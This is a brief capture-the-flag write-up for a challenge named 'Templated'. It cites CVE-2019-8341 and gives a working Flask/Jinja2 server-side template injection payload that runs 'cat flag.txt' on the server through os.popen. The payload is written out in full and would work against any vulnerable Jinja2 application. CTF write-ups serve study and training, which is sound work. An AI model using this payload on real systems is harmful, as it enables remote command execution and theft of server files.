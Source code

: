 ## Templated challenge

### CVE-2019-8341

https://www.cvedetails.com/cve/CVE-2019-8341/

https://www.exploit-db.com/exploits/46386

___

![Screenshot from 2021-10-06 02-04-04](https://user-images.githubusercontent.com/86022395/136114734-4f7f8df5-c03b-495c-93fe-820b84b3e767.png)

Flask/Jinja2 Remote Code Execution exploit to cat flag.txt from the server.

payload
`{{request.application.__globals__.__builtins__.__import__('os').popen('cat flag.txt').read()}}`